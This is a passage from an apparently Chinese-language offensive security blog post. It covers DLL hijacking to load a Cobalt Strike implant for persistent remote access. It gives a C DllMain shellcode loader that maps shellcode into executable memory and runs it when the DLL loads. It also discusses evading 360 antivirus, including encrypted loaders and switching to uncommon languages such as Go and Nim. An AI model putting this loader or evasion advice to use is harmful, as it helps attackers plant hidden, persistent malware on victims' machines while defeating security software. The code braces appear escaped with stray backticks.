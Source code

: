 然后后面直接去尝试加载就行了,程序执行完的时候(`DLL_PROCESS_DETACH`),会自动加载我们的cs马。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t015fa61a334cb43ef7.png)

> 说一下这种方案的好处,就是DLL根本没有恶意操作,所以肯定会免杀，但是你的木马文件要做好免杀，这种思路主要应用于通过劫持一些程序的DLL,然后实现隐蔽的重启上线，也就是权限持续维持，单单杀启动项对DLL进行权限维持的方式来说是没有用的。

### <a class="reference-link" name="0x4.2%20%E5%8D%95DLL%E8%87%AA%E5%8A%A0%E8%BD%BD%E4%B8%8A%E7%BA%BF"></a>0x4.2 单DLL自加载上线

上面可能步骤繁琐了些,其实我们也可以直接将shellcode代码写入到DLL文件中,然后加载DLL的时候执行就行了。

代码大概如下:

```
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
`{`
    if (dwReason == DLL_PROCESS_ATTACH)
    `{`
        DisableThreadLibraryCalls(hModule);
        unsigned char buf[] = "shellcode";
        size_t size = sizeof(buf);
        char* inject = (char *)VirtualAlloc(NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        memcpy(inject, buf, size);
        CreateThread(0, 0, (LPTHREAD_START_ROUTINE)inject, 0, 0, 0);
    `}`
    else if (dwReason == DLL_PROCESS_DETACH)
    `{`
    `}`
    return TRUE;
`}`
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
```

加载Hello32.exe的时候，就会上线，如果hello32执行完自动退出的话,那也挂掉的(可以写一个自动迁移进程的来解决这个问题)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0192577f405769d61f.png)

接下来查看一下杀毒软件报毒不:

一开始静态扫描肯定是可以的,但是当我成功加载上线一次之后，再次查杀立马就被报毒。

后面发现上传鉴定的确也被杀了。(网上很多人说关掉上传(秒天秒地免杀，这里就不做评价了),emmm, 360都是默认开启上传功能的)

[![](https://p1.ssl.qhimg.com/t015586fbd027f8b737.png)](https://p1.ssl.qhimg.com/t015586fbd027f8b737.png)

现在比较主流的就是自写加载器，加密shellcode之类的，但是效果越来越差了，然后现在慢慢倾向于Python语言、Golang、nim等偏僻语言来调用API，应该是杀软没跟上导致bypass，但是这种技术没办法用在DLL的加载器中，除非用这种偏僻语言来生成DLL。
